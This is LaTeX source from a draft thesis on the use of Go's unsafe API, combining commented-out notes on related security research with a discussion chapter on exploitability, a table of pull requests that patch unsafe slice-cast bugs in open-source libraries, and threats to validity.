%% ---------------------------------------------------------------------------------------------------------------------

\section{Static Code Analysis}\label{sec:related-work:static-code-analysis}

cryptolint, CogniCryptSAST, DLint \cite{egele2013, kruger2018, gong2015, smith2020, gabet2020}


%% ---------------------------------------------------------------------------------------------------------------------

\section{Security Issues with Dependencies}\label{sec:related-work:dependency-issues}

counting, updating, introducing vulnerabilities \cite{xia2014, mirhosseini2017, kula2017, watanabe2017, pashchenko2018}



%%% -----------------------------------------------------------------------------
%
%\section{Dependency analysis in Rust with Cargo Geiger}\label{sec:cargo-geiger}
%
%Cargo Geiger is the template for the Go dependency check tool.
%It does the same thing for the Rust programming language.
%
%
%%% -----------------------------------------------------------------------------
%
%\section{OWASP Dependency Checker}\label{sec:owasp-dependency-checker}
%
%Explain OWASP security project.
%
%Show OWASP Dependency Checker program, show experimental Go extension for it.
%This tool does no unsafe code analysis though, it checks for known vulnerabilities of the dependencies in the
%OWASP database.
%
%
%%% -----------------------------------------------------------------------------
%
%\section{Work in progress: paper summaries}\label{sec:paper-summaries}
%
%
%%% -----------------------------------------------------------------------------
%
%\subsection{Understanding Memory and Thread Safety Practices and Issues in Real-World Rust Programs}
%\label{subsec:understanding-memory-and-thread-safety-practices-and-issues-in-real-world-rust-programs}
%
%Qin et al.~\cite{qin2020} contribute the first to their knowledge empirical study of bugs related to unsafe code blocks
%in Rust.
%They mention other empirical studies~\cite{difranco2017, lu2013, chou2001, leesatapornwongsa2016, jin2012, gunawi2014, gu2015}
%none of which seem to be related to Rust or Go.
%The authors analyze 5 projects, 5 libraries and 2 databases.
%They randomly sample 850 unsafe usages out of those.
%They analyze the usages, categorize them into classes, analyze the impact of the bugs and develop two new static code
%checking tools.
%In essence, this is exactly my thesis but done for Rust, and it's probably an excellent example of how to structure a
%paper on this.
%
%A main difference to this thesis is that the authors not only look into the current revision code, but explicitly look
%through the Git history, filtering for commits that remove unsafe usages.
%They further go through reported bugs on the software under analysis and look into the code how those bugs were fixed.
%Bug data is retrieved from CVE and RustSec.
%This is something I should probably do as well!
%
%Within the 850 unsafe usages, the authors analyze 70 memory-safety issues and 100 concurrency bugs.
%It sounds like they found all of those, but this high number is because they look at real-world bugs that were previously
%reported.
%Using their tools however, they also find about 5 to 10 new bugs that they disclosed to the developers.
%
%Similar to my thesis, they explain the purpose of safe code and reasons why unsafe code might be needed.
%They obviously focus on Rust, but some of the points will apply to Go as well.
%
%The reasons to use unsafe code are clustered into these groups: Reuse existing code, convert C-array to Rust slice,
%improve performance.
%The authors find that often the use of unsafe code has good or unavoidable reasons.
%Looking at the commit diffs, they find that unsafe code gets removed to fix memory safety, improve code structure,
%improve thread safety, fix bugs, or because it was unnecessary in the first place.
%
%The authors also look into the Rust standard library, which has similar uses of unsafe as the Go standard library.
%Unsafe code often requires some preconditions on lifetime or input data to hold, and this can be achieved by encapsulating
%it into an interior unsafe function that checks these conditions and might skip the unsafe code if they do not hold.
%
%The areas of problems identified are buffer overflows, null-pointer dereferencing, reading uninitialized memory, invalid
%free, use after free, and double free.
%Fixing strategies were conditionally skipping the unsafe code, adjusting variable lifetime, or changing unsafe operands.
%
%Rust also has thread safety problems, and problems the authors identified can be grouped into blocking and non-blocking.
%Blocking bugs are caused due to incorrect scoping of auto-releasing mutexes.
%Channels might also block.
%Non-blocking bugs include data races and stem from incorrect scoping of shared data or confused ownership.
%
%If a function's safety depends on how it is used, it might be better put into an encapsulation.
%
%The authors suggest development of IDE extension visualizing scopes and lifetimes, development of Rust-tailored static
%analysis tools (which they already contributed two), and dynamic analysis tools.
%Due to the study language developers can also learn from design issues concerning the Rust language itself, because it
%shows how developers adapt to new language concepts over time.
%
%
%%% -----------------------------------------------------------------------------
%
%\subsection{Is Rust Used Safely by Software Developers?}
%\label{subsec:is-rust-used-safely-by-software-developers?}
%
%Evens et al.~\cite{evans2020} present an empirical study of unsafe usages in Rust crates.
%They only include statistical facts such as total number of unsage usages.
%This is different from Qin et al.~\cite{qin2020} in that they did not do an in-depth analysis of potential bugs.
%Still they got accepted at ICSE!
%
%They found that most unsafe usage is to call other unsafe Rust code, while calling C code is less of a concern.
%About a third of libraries contain unsafe code and more than half of them transitively do through dependencies.
%The usage count in crates did not change much over the course of 10 months work.
%More popular libraries are more likely to contain more unsafe code because they encapsulate more popular C libraries.
%
%The authors conducted a N=20 survey on Reddit, revealing that 10\% of developers used unsafe to make the code compile.
%Other popular reasons included performance optimizations, advanced data structures, and unsafe code offering a slicker
%and "more elegant" interface.
%Most developers employed more testing, static and dynamic analysis, and fuzzing when using unsafe code, but many also
%said they would "look carefully on the code".
%I'd suspect this is not an effective approach.
%
%The authors developed an augmented Rust CFG and algorithm to detect potentially unsafe functions in all Rust crates that
%would compile.
%
%
%%% -----------------------------------------------------------------------------
%
%\subsection{Escape from Escape Analysis of Golang}
%\label{subsec:escape-from-escape-analysis-of-golang}
%
%Wang et al.~\cite{wang2020} propose an approach to make heap memory usage in Go more effective by improving the escape
%analysis algorithm.
%The current algorithm is very conservative.
%In particular, the authors try improve a specific type of escape analysis: passing a pointer into a function call will
%make that object escape.
%They contribute an optimizer that always replaces such calls by an intermediate cast of the pointer into a uintptr
%variable and then back to a pointer, both through the use of unsafe.Pointer.
%This breaks the escape analysis chain and will make Go escape only the new pointer to the heap, not the entire previous
%data structure.
%After the identification of such snippets in the code comes a verification stage that will check whether the function
%call is synchronous.
%In that case, the underlying variable cannot be freed before the end of the function, and the optimization is correct.
%If the call is asynchronous, the optimizer checks if the variable is used in any other Goroutine, in which case the
%optimization will not be done.
%Otherwise it is deemed valid.
%
%The authors mention escape analysis in other language~\cite{hill2002, hannan1998, choi1999}.
%
%This is an interesting related work because the tool to break escape analysis, the cast to uintptr and back, is exactly
%the problem in the common unsafe slice cast that I describe in the other sections.
%
%The authors evaluate performance and correctness on 10 open-source and 10 industrial projects.
%Their data set includes kubernetes.
%
%The paper includes advertisement for a company and curiously uses Go 1.9 although the paper is to be published at ICSE
%2020.
%
%
%%% -----------------------------------------------------------------------------
%
%\subsection{Why Can’t Johnny Fix Vulnerabilities: A Usability Evaluation of Static Analysis Tools for Security}
%\label{subsec:why-can’t-johnny-fix-vulnerabilities:-a-usability-evaluation-of-static-analysis-tools-for-security}
%
%Smith et al.~\cite{smith2020} conduct a developer survey on usability problems with static code analysis tools.
%They contribute insights into why developers can often not get the most beneficial outcome from such tools.
%The mainly analyze Java analysis tools such as Find Bugs, CheckStyle and PMD\@.
%
%The problem areas found are code navigation issues, missing or buried information, interface scalability for large
%projects (such as a huge control flow graph), inaccuracy of analysis, code disconnect (meaning the proposed fix to a
%problem did not resemble the previous problem anymore), and workflow continuity (meaning the developers had to
%constantly switch between the tool report and the code editor).
%
%The authors propose as improvements a clear communication of what and how to fix, alerts that are located within the
%editable source code, contextualized and meaningful notifications, and a good integration into existing development
%workflows such as CI.
%
%Minor relevance, probably cite in the chapter about the linting tools.
%
%
%%% -----------------------------------------------------------------------------
%
%\subsection{Source Code Vulnerabilities in IoT Software Systems}
%\label{subsec:source-code-vulnerabilities-in-iot-software-systems}
%
%Alnaeli et al.~\cite{alnaeli2017} contribute a study of unsafe C code patterns, that is well-known unsafe
%functions such as strcpy, in IoT software.
%They count how many unsafe and how many safe functions they find, and compare them with each other to discover trends.
%
%Similar to my work, they search for unsafe code patterns in open-source code.
%Similar to my work, they also look at changes over time.
%In contrast to my work, they analyze C code instead of Go code.
%
%The authors find that the systems under review have neither introduced more nor removed some of the unsafe functions
%over time.
%They conclude that developers might be unaware of the presence of the functions, their implications, or both.
%They suggest better developer education on security-related consequences of these functions.
%
%Minor relevance, cite in survey chapter.
%
%
%%% -----------------------------------------------------------------------------
%
%\subsection{Statically Detecting Likely Buffer Overflow Vulnerabilities}
%\label{subsec:statically-detecting-likely-buffer-overflow-vulnerabilities}
%
%In their (quite old) 2001 paper, Larochelle and David Evans~\cite{larochelle2001} write about static code analysis to
%detect likely buffer overflow vulnerabilities in C code.
%They cite a paper assuming that buffer overflows would still be relevant in 20 years, that would be 2019.
%That would be true but I'll have to see if it makes sense to also cite this and add a comment.
%
%Similar to my work, this is using static analysis to find problems in code.
%But contrary to my work, it's for C code, not Go.
%They also talk about simple overflow exploitation techniques, in the context of C\@.
%I can and probably should do the same, with a focus on Go.
%
%The authors exploit semantic comments to enable local checking of interprocedural properties, they focus on lightweight
%analysis that does not add much overhead, and they use heuristics.
%They conduct their study using the LClint annotation tool also developed by Evans.
%They note that annotating the standard library would bring a lot of security even without annotating actual programs,
%because most vulnerabilities come from using insecure or improperly used functions.
%This I can use too to argue for better auditing of standard libraries and developer education as well.
%
%The annotations available include data constraints, such as x > y, and control flow constraints such as branch-specific
%annotations.
%
%
%%% -----------------------------------------------------------------------------
%
%\subsection{Vulnerable Open Source Dependencies: Counting Those That Matter}
%\label{subsec:vulnerable-open-source-dependencies:-counting-those-that-matter}
%
%Pashchenko et al.~\cite{pashchenko2018} in a quite recent study propose a way of counting relevant dependencies in a
%project and identifying whether the dependencies are vulnerable.
%The study is done for Java, and specifically for Maven dependency management.
%The authors note that failure of identifying relevant dependencies might lead to bad allocation of development resources.
%
%A central point is dependency scoping (production versus testing) which many studies did not incorporate in the past.
%If a vulnerability is found in a dependency only relevant for testing, it might not be worth to put resources onto its
%mitigation.
%This is extremely relevant for me!
%As of now, I also do not distinguish between testing and production library.
%This is probably not even possible with the Go dependency management system.
%A key insight for distiguishing this related work from my work would be to highlight the relative instability of the
%incredibly new Golang dependency system compared to the very seasoned Maven system.
%The authors find that around 20 \% of dependencies are for testing only (not deployed).
%
%Furthermore, it is very important to transitively look at dependencies of dependencies because they can just as well
%introduce problems into the main project.
%This is something my study already perfectly does.
%
%The authors contribute a method of determining whether a dependency is actively maintained or halted.
%It is done by looking at the release cycle with an exponential smoothing model.
%There are only a few vulnerabilities in halted libraries that they found, but those are especially important because
%mitigation cannot be done by a simple upgrade.
%
%The authors introduce the important concept of reliability for bug fixing.
%This is, the developers are directly reliable for fixing their main package and own dependencies, and they need to
%make sure their direct dependencies are up to date but cannot fix them.
%The indirect, or transitive, depencies are out of responsiblity for the developers since they cannot even be upgraded
%manually.
%A major finding is that grouping the dependencies of a project into these reliability groups gives a better picture into
%how much the developers can actually do, and the authors find that for more than 80 \% of the problems the developers
%can mitigate themselves through an upgrade or fixing their own code.
%
%Identification of vulnerabilities is done by matching code patterns to vulnerability databases both in a manual and an
%automated fashion.
%The developers contribute a tool that can provide annotations to the code as to which vulnerablity it might belong.
%
%A very relevant insight for me: the authors first did an incorrect dependency popularity measurement.
%They counted the times the dependency gets imported, possibly distorting the popularity if a project is decomposed into
%many small own dependencies~\cite{sajnani2014}.
%A better way is to count the projects that include the dependency.
%I already use the second approach in Table~\ref{tbl:pull-requests} for the supplied pull requests for fixes.
%However, I need to make sure in the plot generation that I use the same metrics.
%
%The authors compare to other ecosystems such as Pip and NPM, but not Go.
%For NPM, they cite a relevant study on Javascript dependency vulnerabilites~\cite{lauinger2017}, which showed that
%transitive project dependencies are more vulnerable than direct dependencies.
%They reason that this might be the case because developers are less aware of the existence of those dependencies, and
%have less control about them.
%The authors highlight that this is a finding specific to Javascript because NPM allows several versions of the same
%library to be used in the same project, while Maven does not.
%I need to find out if this is possible with Go modules too, I think it is not.
%I think Go behaves like Maven.
%However, I need to highlight that in my data survey there are of course different versions of the same library, and this
%is even necessary to analyze unsafe usage over time.
%
%Within threats to validity, the authors note that the selection of libraries was potentially biased, that the
%vulnerability database may not cover all vulnerabilites, the study only used Maven, and that project IDs were approximated.
%
%This is an extremely valuable related work that I definitely need to cite both in the background on Go dependencies
%and the survey as well.
%
%
%%% -----------------------------------------------------------------------------
%
%\subsection{Do developers update their library dependencies?}
%\label{subsec:do-developers-update-their-library-dependencies?}
%
%Kula et al.~\cite{kula2017} conduct a study on Github projects and developer survey on how dependencies are updated.
%They find that developers often think library updates are extra work and deprioritize it.
%The study is done on Maven and Java and finds that libraries are rarely updated.
%Specifically, security updates are included less often because developers were unaware of them.
%Upon getting the news, developers promptly updated away from vulnerable dependencies.
%
%Available updates are traditionally announced on the homepage of the library, through change logs and semantic versioning.
%Other possibilities include security advisories.
%
%When selecting vulnerabilities for analyzing security advisories, the authors only use denial of service and man in the
%middle vulnerabilities.
%This means that the survey is both rather shallow and biased towards web projects.
%
%This work is minor to medium relevant.
%It's to include in a list of examples to cite, but on its own it is less effective as a related work than the others
%I read.
%
%
%%% -----------------------------------------------------------------------------
%
%\subsection{Can automated pull requests encourage software developers to upgrade out-of-date dependencies?}
%\label{subsec:can-automated-pull-requests-encourage-software-developers-to-upgrade-out-of-date-dependencies?}
%
%Mirhosseini et al.~\cite{mirhosseini2017} answer the research question whether automated pull requests such as greenkeeper
%or pyup can encourage developers to update dependencies.
%They find that badges provide a good incentive to developers to keep them green by updating.
%Automated pull requests offer an actionable solution to update, but notification fatigue can work against update
%discipline.
%That is, maintaining many open source projects can lead to a lot of pull request notifications, especially if there is
%one opened for every single dependency.
%
%The authors analyze about 7,400 Github projects, grouped into badges, automated pull requests, and a baseline.
%Automated pull requests lead to 1.6 times, badges to 1.4 higher probability to update.
%Pull requests also mean faster updates.
%On purpose, they use a broad sample of Github projects instead of the most popular ones.
%This is something I should talk about too in my work!
%In summary, both versions of update helpers had a positive impact, with pull requests being in the lead.
%
%A surprising finding was that only about 30 \% of automated PRs was merged, compared to about 80 \% of general PRs.
%Some merged update PRs were also downgraded again after some days, hinting incompatibilities introduced.
%Using CI correlated with marginally higher merge rate.
%
%They also conduct a developer survey.
%Developers had mixed feelings about badges versus automated pull requests.
%They suggested to use batched updates, resulting in fewer pull requests and less fatigue.
%
%The authors identified through survey different updating strategies: quick, scheduled, reactive.
%A developer said, reasoned through possible new errors in libraries and minor benefits, that in the reality of commercial
%software engineering, staying on bleeding edge library versions usually costs more than it benefits, and the better
%approach is to update infrequently.
%My work should act on this and argue that this is true for feature releases but very bad for security releases.
%Maybe one could do something with semver here.
%
%The survey also showed that a single bad update of one library can very strongly cause developers to be reluctant from
%updating in the future.
%From this, we can argue for high responsible in library releasing to not destroy the necessary environment for timely
%ships of security fixes.
%
%The authors further cite another work stating that vulnerabilities are often contained in dependencies~\cite{xia2014}.
%CI is not always a guarantee that an update does not break the software.
%Badges can counteract fatigue, and more importantly they rely on a different mechanism: social pressure.
%
%This has very relevance for me because of the survey on update preferences.
%It is interesting to cite this within the argument that libraries must be updated in order to remove already fixed
%vulnerabilities from dependent projects.
%
%
%%% -----------------------------------------------------------------------------
%
%\subsection{Understanding the Origins of Mobile App Vulnerabilities: A Large-scale Measurement Study of Free and Paid Apps}
%\label{subsec:understanding-the-origins-of-mobile-app-vulnerabilities:-a-large-scale-measurement-study-of-free-and-paid-apps}
%
%Watanabe et al.~\cite{watanabe2017} conduct a study on the origins of mobile vulnerabilities.
%They inspect both free and paid Android apps.
%They find that 70 \% of bugs come from dependencies, 50 \% from third-party dependencies.
%More expensive and/or popular apps tended to have more vulnerabilities.
%
%An interesting finding for me: 50 \% of vulnerabilities were found in unreachable code.
%As I also already found one manual vulnerability that was unreachable, it might be interesting to argue that there is a
%very feasible risk that the studies are distorted due to failure to identify dead code.
%
%The authors claim that a limitation of static analysis is that obfuscated, runtime-dynamic code might introduce
%vulnerabilities that the analysis missed.
%This might be true, but such code is also to be treated as dangerous in my opinion.
%
%In contrast to my work, this is based on Android and Java at best, not Go.
%
%This is only minor relevant as another study.
%
%
%%% -----------------------------------------------------------------------------
%
%\subsection{Understanding Real-World Concurrency Bugs in Go}
%\label{subsec:understanding-real-world-concurrency-bugs-in-go}
%
%Tu et al.~\cite{tu2019} present a very recent (2019) study on Go concurrency bugs.
%They summarize how Go was designed to be an especially safe and easy-to-use language for concurrency.
%Every Go major release has improved on concurrency.
%Go offers both shared memory (through use of Mutex, RWMutex, Cond, atomic, Once, WaitGroup) and message passing(through
%chan).
%Channels can be buffered and unbuffered.
%New additions include the select statement, context, and Pipe.
%
%The authors analyzed six open-source Go applications, and inspected about 170 bugs.
%They used commit logs and keywords to find concurrency-related bugs and fixes.
%Then they grouped them on two dimensions into blocking / non-blocking, and message passing / shared memory.
%They answered the research question of how often goroutines get used in the real world, statically and dynamically.
%
%Similar to my work, their static analysis just involved finding instances of the go keyword.
%Dynamic analysis is more complicated though.
%They found that goroutines are used very often in the sample programs.
%Similar to my work, they compared the frequency of the two methods of concurrency synchronization.
%I can do a similar argument when comparing different keywords of unsafe code.
%The authors find that usage trends were stable over time.
%
%The authors analyzed commit messages and filtered for the following keywords: race, deadlock, synchronization,
%concurrency, lock, mutex, atomic, compete, context, once, goroutine leak.
%They randomly sampled, filtered for actual bug fixings, and then manually analzed and grouped them.
%This is something I should do as well.
%Bugs were split about 50/50 between message passing and shared memory.
%
%The conclusion is that new Go mechanisms that should make concurrency easier and safer can actually introduce new bugs.
%
%This is an extremely relevant related work.
%Cite this both in related work, background, and survey.
%
%
%%% -----------------------------------------------------------------------------
%
%\subsection{A Dataset of Parametric Cryptographic Misuses}
%\label{subsec:a-dataset-of-parametric-cryptographic-misuses}
%
%Wickert et al.~\cite{wickert2019} present a labeled data set of 201 crypto API misuses.
%They focus on Java crypto API JCA parametric misuses, that is the usage of insecure configuration and/or wrong
%parameters to the crypto API.
%They initially downloaded more than 1300 Java projects from Github, but only about 130 of them contained the crypto
%APIs, 53 of them could be built, and 39 of them could be analyzed successfully by a static analysis tool.
%Still, in the remaining 39 projects plus some manual investigation they found 201 misuses in 44 projects.
%
%The authors sorted the misuses by two dimensions: API used (e.g. Cipher, MessageDigest, \ldots) and misuse category (e.g.
%transformation algorithm, incorrect randomization, key, initialization vector, or iteration count).
%
%The authors included their findings into MUBench and performed a benchmark on precision and recall on the FindBugs tool.
%Furthermore, they iterate on how their data set can be used as a foundation for further research, e.g. benchmarking new
%static analysis tools or training classifiers.
%
%Similar to my work, they mined projects from Github and looked for security problems.
%In contrast to my work, they focused on Java and crypto APIs, not Go and unsafe pointers.
%They state that there exists possible bias in project selection, and that approaches that are secure today might become
%insecure in the future.
%
%Medium relevant, cite in related work and both survey chapters I think.

%% ---------------------------------------------------------------------------------------------------------------------

\chapter{Discussion}\label{ch:discussion}

This chapter discusses the results and findings of this thesis.
First, the dangers and practical exploitability of real-world Go applications due to usage of the \unsafe{} API are
elaborated.
Then, the patches that were sent to open-source code maintainers  are described in detail and suggestions towards a
world with safer usage practices of \unsafe{} code are given.
Finally, threats to validity, and future work are presented.


%% ---------------------------------------------------------------------------------------------------------------------

\section{Practical Exploitability of Unsafe Code}\label{sec:discussion:exploitability}

This thesis took a deep look into the \unsafe{} API of the Go programming language.
It was shown that it is effectively used by almost all of the \projsAnalyzed{} top-starred open-source projects
(\percentageUnsafeTransitiveWithDependencies{}) either directly or by including \unsafe{} usages through third-party
dependencies.
While there are many legitimate use cases for \unsafe{} code, such as efficient conversions between otherwise
incompatible types without allocating additional memory or accessing the foreign function interface (\acrshort{FFI}),
a thorough manual study also showed that there are dangers and possible vulnerabilities that can come from it.
While the data collected when creating the labeled data set of annotated \unsafe{} usage examples shows that the
majority of the usages are safe and legitimate, there were also several bugs that could lead to severe vulnerabilities.

A contribution of this thesis is novel evidence of possible misuses of the \unsafe{} \acrshort{API} with concrete proof
showing how a vulnerability is introduced.
The changes needed to avoid the misuses are often minor and subtle, which underlines the fact that \unsafe{} is a
fragile and dangerous feature of the Go programming language.
It is complicated to understand the dangers a given piece of code has and could have in the future, especially if there
is interaction with other parts of the code base and other developers.
If a bug is introduced, it can easily slip through code review and be part of a zero day exploit some time later.
The bugs that were found during the course of this work, and to which I submitted patches as described in the next
section, may seem few and minor at first glance, but it only takes one \textit{use-after-free} bug at a critical
position to open up the possibility of a major remote code execution attack.

The general direction that programming languages like Go or Rust take is the right one.
By enforcing a strict safety net in most cases and still allowing escape hatches to circumvent these measures when it is
absolutely necessary, they combine the best of two worlds.
In most of the code base, buffer overflows, race conditions etc. are prevented at the small cost of a slightly more
rigid coding workflow and developer training.
Still, there is the option of complete flexibility and total control over the memory if it should be needed.
This allows organizations to focus auditing and review efforts on the code parts that use the \unsafe{} \acrshort{API},
which is a fraction of the total code.


%% ---------------------------------------------------------------------------------------------------------------------

\section{Patching Open-Source Projects}\label{sec:discussion:patches}

In the process of analyzing \unsafe{} usages in real-world Go code, and using the novel static analysis tool
\toolSafer{}, I found \numberBugsFixed{} unsafe-related bugs that can lead to security vulnerabilities.
Most of them (\checkNum{63}) are instances of incorrect constructions of slice header values, which are used with
in-place conversions between slices of different types.
These can cause the \textit{use-after-free} vulnerabilities due to the garbage collector freeing a value that is still
in use or an error in the escape analysis causing a value to be placed on the stack incorrectly, as described in
Sections~\ref{subsec:unsafe-security-problems:slice-casts:gc-race}
and~\ref{subsec:unsafe-security-problems:slice-casts:escape-analysis}.
Furthermore, there is the bug causing incorrect length information in a slice in the \goFuse{} library as described in
Section~\ref{subsec:unsafe-security-problems:slice-casts:incorrect-length}.

I submitted \numberPRs{} pull requests with patches to these bugs to the authors of the affected libraries on
\github{}.
These pull requests contain fixes to one or more bugs, with a total number of \numberBugsFixed{} resolved bugs.
Furthermore, \checkNum{one} additional pull request already existed.
They are listed in Table~\ref{tbl:pull-requests} along with their respective \github{} projects.
The Popularity column indicates how many projects in the data set of the top \projsTotal{} most popular Go projects use
the respective library, showing the impact of bugs.
Furthermore, the table indicates which of the pull requests have been merged so far, and how many bugs they contain
individually.

\begin{table}[htp!]
    \centering
    \caption{Pull requests on \github{} to fix vulnerable Go libraries}
    \label{tbl:pull-requests}
    {\footnotesize
        \begin{tabularx}{\textwidth}{rlXrrll}
        {} & \textbf{Project}             & \textbf{PR-Name}                                                & \textbf{Popularity} & \textbf{Bugs} & \textbf{PR Number}                                                     & \textbf{Merged}  \\
        \hline
        1  & hanwen/go-fuse               & batch forget: fix missing return to handle malformed input data &  3 projects         &  1            & \href{https://www.github.com/hanwen/go-fuse/pull/363}{PR \#363}        & no               \\
        \rowcolor{verylightgray}
        2  & buger/jsonparser             & Fix possible memory confusion in unsafe slice cast              &  4 projects         &  1            & \href{https://www.github.com/buger/jsonparser/pull/204}{PR \#204}      & yes              \\
        3  & elastic/go-structform        & Fix possible memory\ldots                                       &  1 project~         &  2            & \href{https://github.com/elastic/go-structform/pull/21}{PR \#21}       & yes              \\
        \rowcolor{verylightgray}
        4  & go-fiber/utils               & Fix possible memory\ldots                                       &  1 project~         &  1            & \href{https://github.com/gofiber/utils/pull/7}{PR \#7}                 & yes              \\
        5  & influxdata/influxdb          & fix: possible memory\ldots                                      &  8 projects         &  1            & \href{https://github.com/influxdata/influxdb/pull/18307}{PR \#18307}   & no               \\
        \rowcolor{verylightgray}
        6  & influxdata/influxdb1-client  & fix: possible memory\ldots                                      &  4 projects         &  1            & \href{https://github.com/influxdata/influxdb1-client/pull/40}{PR \#40} & no               \\
        7  & modern-go/reflect2           & Fix possible memory\ldots                                       & 71 projects         &  1            & \href{https://github.com/modern-go/reflect2/pull/13}{PR \#13}          & yes              \\
        \rowcolor{verylightgray}
        8  & savsgio/gotils               & Fix possible memory\ldots                                       &  1 project~         &  2            & \href{https://github.com/savsgio/gotils/pull/2}{PR \#2}                & yes              \\
        9  & valyala/fasttemplate         & Fix possible memory\ldots                                       & 10 projects         &  1            & \href{https://github.com/valyala/fasttemplate/pull/21}{PR \#21}        & yes              \\
        \rowcolor{verylightgray}
        10 & weaveworks/ps                & Fix possible memory\ldots                                       &  1 project~         &  1            & \href{https://github.com/weaveworks/ps/pull/3}{PR \#3}                 & no               \\
        11 & yuin/goldmark                & Fix possible memory\ldots                                       &  5 projects         &  1            & \href{https://github.com/yuin/goldmark/pull/134}{PR \#134}             & yes              \\
        \rowcolor{verylightgray}
        12 & yuin/gopher-lua              & Fix possible memory\ldots                                       &  6 projects         &  1            & \href{https://github.com/yuin/gopher-lua/pull/287}{PR \#287}           & yes              \\
        13 & gorgonia/tensor              & Fix possible memory\ldots                                       &  1 project~         &  1            & \href{https://github.com/gorgonia/tensor/pull/68}{PR \#68}             & yes              \\
        \rowcolor{verylightgray}
        14 & gorgonia/tensor              & Fix 48 more possible\ldots                                      &  1 project~         & 48            & \href{https://github.com/gorgonia/tensor/pull/72}{PR \#72}             & yes              \\
        15 & mailru/easyjson              & fix unsafe unsafe usage\newline \textit{(previously existing)}  & 42 projects         &  1            & \href{https://github.com/mailru/easyjson/pull/258}{PR \#258}           & no               \\
        \hline
        {} & \multicolumn{3}{l}{\textbf{Total}}                                                                                   & \textbf{64}   & {}                                                                     & \textbf{10 / 15} \\
        \end{tabularx}
    }
\end{table}

This is a public disclosure procedure, although the bugs have not been announced on any news pages.
Given that there are currently no actual exploits that use the bugs to inject code or leak data, this was a good choice
compared to other procedures like a responsible disclosure, for example.
Submitting \github{} pull requests allows the code authors to easily merge the necessary changes.
For the bug in \textit{mailu/easyjson}, there was already an existing open pull request.
So far \numberPRsMerged{} of the pull requests have been reviewed, acknowledged, and accepted by the authors.
The remaining were not rejected either, but received no attention due to a generally high volume of open pull requests
in the project.


%% ---------------------------------------------------------------------------------------------------------------------

\section{Suggestions for Safer Go Code}\label{sec:discussion:safer-go-code}

Usages of \unsafe{} that get imported through third-party dependencies are dangerous because they can be hidden at first
glance, but still get compiled into the resulting application binary.
On top of the fact that external dependencies tend to get updated rather late if at all, as was discussed in
Section~\ref{sec:related-work:dependency-issues}, there is now also the possibility that there is simply nobody even
aware of the potential danger.
The novel tool \toolGeiger{} is a large step in the journey of improving this situation, as it allows to quickly and
effectively differentiate the libraries that need auditing from those that do not.
An effective next step would be to use this information even before deciding which library to use.
If there are multiple external libraries that achieve the same goal, choosing which one to use should incorporate the
data about how many \unsafe{} usages each library contains, if any \todo{check with work by Sarah Nadi}.
Libraries with less \unsafe{} code should be preferred over those with many.
It would be beneficial to contribute towards a situation where library maintainers use the number of \unsafe{} usages
in their library as a feature or part of its advertisement.
Similar to code quality report badges on the \github{} repository of the project, there could be a badge showing if the
library uses any \unsafe{} code, and if it does how much.
However, it is important to remember that the number of \unsafe{} usages is not itself an indicator for the safety of
a library or project.
First, security problems can also be introduced in code that does not use \unsafe{} at all.
Second, there could be many well audited \unsafe{} usages in one project, and a single one that causes a vulnerability
in another one.
Although the number of \unsafe{} usages in the second project is smaller, it is much less secure.

Since the study data for this thesis has been collected, the most recent Go release \checkNum{1.15} from
\checkNum{August 2020} has enabled additional static checking of \textit{unsafe.Pointer} usages with the
\textit{-d=checkptr} compiler flag\footnote{\url{https://golang.org/doc/go1.14\#compiler}}.
The development of the new check had been started with Go release \checkNum{1.14} already.
It checks that the alignment of the target type matches the alignment of the pointer when converting unsafe pointers to
an arbitrary type.
Furthermore, the result of pointer arithmetic can not be a completely arbitrary heap value anymore, instead at least one
argument of the arithmetic expression must already be a pointer into the resulting value if it is a heap value.
Both checks prevent some misuses of \unsafe{} that can occur if the developer took a false assumption over the types
involved in a conversion, and therefore they are a valuable step towards a safer usage of \unsafe{} in Go.
However, the new check can not find the misuses that are detected by \toolSafer{}, which underlines the need of
continuous improvement of the developer tools and continued awareness of potentially still unknown dangers with the use
of \unsafe{}.
\todo{which of the problems described in Chapter 3 are solved with this new feature?}

Finally, some \unsafe{} usages in the analyzed open-source projects were necessary to achieve functionality that could
have been implemented with generics too, if they were available in Go.
Generics are in fact one of the most widely requested features for the Go programming language, with \checkNum{79\%} of
participants in the \checkNum{2019} Go Developer Survey\footnote{\url{https://blog.golang.org/survey2019-results}}
stating that they think it is a critical missing feature.
Since generics have now been officially announced\footnote{\url{https://blog.golang.org/go2-next-steps}} for the
upcoming Go release \checkNum{2.0}, these \unsafe{} usages can then be replaced by the new generics support.
Similarly, other language improvements such as a new foreign function interface could make other usages of \unsafe{}
which are necessary at the moment obsolete, thus decreasing the room for errors made by the developers and therefore
increasing security and safety.


%% ---------------------------------------------------------------------------------------------------------------------

\section{Threats to Validity}\label{sec:discussion:threats-to-validity}

This section discusses potential threats to the validity of this work.
Internal threats concern the quality of execution, or whether any results could be explained by other factors that were
not covered in this thesis.
The empirical study and quantitative evaluation presented in Section~\ref{sec:go-geiger:quantitative-evaluation}
focused on code for the \textit{amd64} architecture.
This is due to a limitation of \toolGeiger{}, which currently only finds \unsafe{} usages in code targeted for the
architecture that \toolGeiger{} is executed on.
There could possibly be a different prevalence of \unsafe{}, or a contradictory distribution of \unsafe{} token types,
on other architectures.
This threat is mitigated first by the fact that \textit{amd64} is by far the most commonly used architecture in the
data set presented in this thesis, therefore code for other architectures should not have a large influence on the
statistics.
Secondly, an analysis using \textit{grep} showed similar results to the study using \toolGeiger{}.
While \textit{grep} can not exclude unreachable code, it includes code for all architectures.

Furthermore, the manual analysis of \unsafe{} code patterns could have missed some vulnerabilities.
In fact, it is almost guaranteed that there are more ways to exploit \unsafe{} usages.
However, the objective of this thesis is not a necessarily exhaustive search for all possible exploit vectors.
Instead, the contributions of this work include an analysis that did reveal multiple vulnerabilities, thus providing a
step towards safer Go applications.

On the other hand, external threats to validity concern the ability to generalize the study results to new data.
First, the raw data for the empirical study in Section~\ref{sec:go-geiger:quantitative-evaluation}, as well as the
labeled data set described in Section~\ref{sec:go-geiger:qualitative-evaluation} was gathered from the most popular
projects on \github{}, measured by their number of stars.
Furthermore, projects without support for the Go module system and projects that would not compile on our machines were
excluded.
It is possible that the usage of \unsafe{} is different in less popular projects.
This is especially true for projects with fewer stars, where there might not be as many developers reviewing \unsafe{}
usages due to a smaller public interest.
Projects which have not yet adopted the module system or contain build errors could have a generally lower code quality,
which means there could be a bias in the study data towards higher-quality projects.
However, choosing projects by popularity mitigates possible bias towards specific domains of projects, such as
virtualization or databases, because the number of stars is an easy and rather neutral metric.
Therefore, the project set enables a good overview on the usage of \unsafe{} in a broad selection of projects.

%% ---------------------------------------------------------------------------------------------------------------------

